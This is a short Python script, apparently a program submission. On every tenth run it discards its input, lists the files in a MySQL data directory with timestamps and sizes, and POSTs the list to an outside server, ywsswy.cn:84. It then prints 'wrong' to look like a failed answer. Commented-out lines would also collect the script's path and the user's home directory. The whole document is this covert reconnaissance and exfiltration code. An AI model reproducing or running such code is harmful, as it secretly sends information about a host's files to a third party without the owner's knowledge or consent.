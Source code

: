 import urllib.request
import json
import os
import datetime
num = 0
with open('E:/Soft/Dev-Cpp/yg.txt', 'r') as f:
    num = int(f.read())
    num += 1
with open('E:/Soft/Dev-Cpp/yg.txt', 'w') as f:
    f.write(str(num))
if int(num%10) != 0:
    exit()
data_list = []
while True:
    try:
        temp = input()
    except EOFError:
        break
#data_list.append('本文件目录：{}'.format(os.path.abspath(__file__)))
#data_list.append('用户目录：{}'.format(os.path.expanduser('~')))
try:
    path = 'E:/Data/Mysql/data'
    for file in os.listdir(path):
        file_path = os.path.join(path, file)
        #data_list.append(file_path)
        timestamp = os.path.getmtime(file_path)
        data_list.append(''.join([str(datetime.datetime.fromtimestamp(timestamp).strftime('%Y-%m-%d %H:%M:%S')),'\t\t',file_path,'\t\t',str(os.path.getsize(file_path))]))
except Exception as mye:
    data_list.append('异常信息：{}'.format(str(mye)))
data = json.dumps(data_list)
data = 'input={}'.format(data)
data = data.encode('utf-8')
url = 'http://ywsswy.cn:84'
req = urllib.request.Request(url) 
req.add_header('Content-Type', 'application/x-www-form-urlencoded;charset=utf-8')
res = urllib.request.urlopen(req, data).read()
print('wrong')
